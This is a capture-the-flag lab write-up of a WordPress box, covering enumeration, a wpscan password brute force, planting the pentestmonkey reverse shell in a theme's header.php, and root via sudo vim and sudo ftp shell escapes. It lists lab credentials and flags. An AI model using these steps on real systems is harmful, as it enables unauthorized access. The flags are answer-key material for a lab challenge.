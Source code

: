 tags: #privEsc #easy #gobuster #wpscan #sudoVIM #sudoFTP

IP address: 10.10.64.128
# Enumerations
```
nmap -sC -sV 10.10.250.171 -T5
```

![Pasted image 20240609193857](https://github.com/BGhoster/Write-Ups/assets/43526966/6f731958-4edc-4420-ba9c-9a21f28a5c53)


```
nmap -p- -A 10.10.250.171 -T5
```

![Pasted image 20240609202648](https://github.com/BGhoster/Write-Ups/assets/43526966/3c27e9d4-23d0-4cca-8a2d-ae46d1dea82e)

## Open ports
80: HTTP
4512: ssh
## Usernames/passwords
Hugo

C0ldd:9876543210

Philip


# Gobuster
```python
gobuster dir -u 10.10.250.171 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100
```

![Pasted image 20240609194252](https://github.com/BGhoster/Write-Ups/assets/43526966/1146d672-58b9-4d46-8d99-fb766a8419b0)

## Directories
/wp-content (Status: 301) [Size: 319] [--> http://10.10.250.171/wp-content/]

/wp-includes (Status: 301) [Size: 320] [--> http://10.10.250.171/wp-includes/]

/wp-admin (Status: 301) [Size: 317] [--> http://10.10.250.171/wp-admin/]

/hidden (Status: 301) [Size: 315] [--> http://10.10.250.171/hidden/]

# Niko Finds
http://10.10.250.171/xmlrpc.php/
There might be a vulnerability with how XML-RPC is set up. Let's try it

> [!NOTE]
> The main weaknesses associated with XML-RPC are: Brute force attacks: Attackers try to login to WordPress using xmlrpc.php .
> lets see how that is actually done & how you might be able to leverage this while your trying to test a wordpress site for any potential vulnerabilites

Did not find anything with xmlrpc.php

# WP-Scans
```bash
 wpscan --url http://10.10.64.128/ -U c0ldd --password-attack wp-login -P /usr/share/wordlists/rockyou.txt
```
### Scan details
[!] XML-RPC seems to be enabled: http://10.10.64.128/xmlrpc.php  
[!] The version is out of date, the latest version is 3.7
### Found credentials 
**c0ldd:9876543210**

![Pasted image 20240609204402](https://github.com/BGhoster/Write-Ups/assets/43526966/5a0eb63e-28cd-40c2-92e1-150f619f735c)


# Getting reverse shell after log-in
Appearance -> Editor 
We will be using header.php and uploading pentest monkey reverse shell.
```python
http://10.10.64.128/wp-content/themes/twentyfifteen/header.php
```
Visiting the site starts the reverse shell.
# Upgrading shell
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
```
export TERRM=xterm
```
```
stty raw -echo && fg    
```

# User.txt
```python
grep -Hrn c0ldd / 2>/dev/null
"""
-H: This option forces grep to always print the filename where the match was found, even if there's only one file being searched. It stands for "print filename".

-r: This option tells grep to search recursively through directories. It stands for "recursive".

-n: This option tells grep to prefix each line of output with the line number within its file. It stands for "line number".
"""
```
- /var/www/html/wp-config.php:22:define('DB_USER', 'c0ldd');

![Pasted image 20240609210033](https://github.com/BGhoster/Write-Ups/assets/43526966/fad8129f-ab7d-4f2d-96f7-85984efa1728)

c0ldd:cybersecurity

```
cat user.txt
```
- RmVsaWNpZGFkZXMsIHByaW1lciBuaXZlbCBjb25zZWd1aWRvIQ==

# Root.txt
```
sudo -l
```

![Pasted image 20240609210351](https://github.com/BGhoster/Write-Ups/assets/43526966/d3af7755-0fb4-491c-8d7a-13b603b45e9a)

## VIM
https://gtfobins.github.io/gtfobins/vim/
```
sudo vim -c ':!/bin/sh'
```
- wqFGZWxpY2lkYWRlcywgbcOhcXVpbmEgY29tcGxldGFkYSE
## FTP
https://gtfobins.github.io/gtfobins/ftp/
```
sudo ftp
```
```
!/bin/sh
```
- wqFGZWxpY2lkYWRlcywgbcOhcXVpbmEgY29tcGxldGFkYSE
